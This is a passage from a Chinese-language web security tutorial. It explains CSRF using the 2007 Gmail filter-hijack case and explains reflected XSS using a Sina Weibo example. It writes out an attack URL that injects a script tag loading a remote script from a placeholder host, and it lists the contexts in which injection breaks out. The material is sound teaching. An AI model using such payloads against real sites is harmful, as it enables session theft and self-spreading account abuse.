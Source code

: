 大卫很快打开Gmail，找到了那条过滤器，将其删除。然而，已经泄露的邮件，已经被转让的域名，再也无法挽回了……

以上就是大卫的悲惨遭遇。而“点开一个黑客的链接，所有邮件都被窃取”这种事情并不是杜撰的，
此事件原型是2007年Gmail的`CSRF`漏洞：
[Google’s Gmail security failure leaves my business sabotaged](https://www.davidairey.com/google-Gmail-security-hijack/)

### CSRF攻击的特点 

攻击者诱导受害者进入第三方网站，在第三方网站中，向被攻击网站发送跨站请求。利用受害者在被攻击网站已经获取的凭证，达到冒充用户对被攻击的网站执行某项操作的目的。

- 攻击一般发起在第三方网站，而不是被攻击的网站。被攻击的网站无法防止攻击发生。

- 攻击利用受害者在被攻击网站的登录凭证，冒充受害者提交操作；而不是直接窃取数据。

- 整个过程攻击者并不能获取到受害者的登录凭证，仅仅是“冒用”。

- 跨站请求可以用各种方式：图片`URL`、超链接、`CORS`、`Form`提交等等。部分请求方式可以直接嵌入在第三方论坛、文章中，难以进行追踪。

## XSS攻击（Cross site scripting 跨站脚本攻击） 

### XSS攻击实例 - 新浪微博名人堂反射型 XSS漏洞 

攻击者发现 http://weibo.com/pub/star/g/xyyyd 这个 `URL`的内容未经过滤直接输出到`HTML` 中。

于是攻击者构建出一个` URL`，然后诱导用户去点击：


    http://weibo.com/pub/star/g/xyyyd"><script src=//xxxx.cn/image/t.js></script>


```html
<li>
  <a href="http://weibo.com/pub/star/g/xyyyd">
    <script src=//xxxx.cn/image/t.js></script>
    ">按分类检索
  </a>
</li>
```

浏览器接收到响应后就会加载执行恶意脚本`//xxxx.cn/image/t.js`，在恶意脚本中利用用户的登录状态进行关注、发微博、发私信等操作，发出的微博和私信可再带上攻击`URL`，诱导更多人点击，不断放大攻击范围。这种窃用受害者身份发布恶意内容，层层放大攻击范围的方式，被称为“`XSS蠕虫`”。

### XSS攻击的特点

 `Cross-Site Scripting`（跨站脚本攻击）简称` XSS`，是一种代码注入攻击。攻击者通过在目标网站上注入恶意脚本，
使之在用户的浏览器上运行。利用这些恶意脚本，攻击者可获取用户的敏感信息如`Cookie`、`SessionID` 等，进而危害数据安全。

`XSS` 的本质是：恶意代码未经过滤，与网站正常的代码混在一起；浏览器无法分辨哪些脚本是可信的，导致恶意脚本被执行。

- 在 `HTML` 中内嵌的文本中，恶意内容以 script 标签形成注入。

- 在内联的 `JavaScript `中，拼接的数据突破了原本的限制（字符串，变量，方法名等）。

- 在标签属性中，恶意内容包含引号，从而突破属性值的限制，注入其他属性或者标签。

- 在标签的 `href`、`src` 等属性中，包含 `javascript:` 等可执行代码。

- 在 `onload`、`onerror`、`onclick` 等事件中，注入不受控制代码。
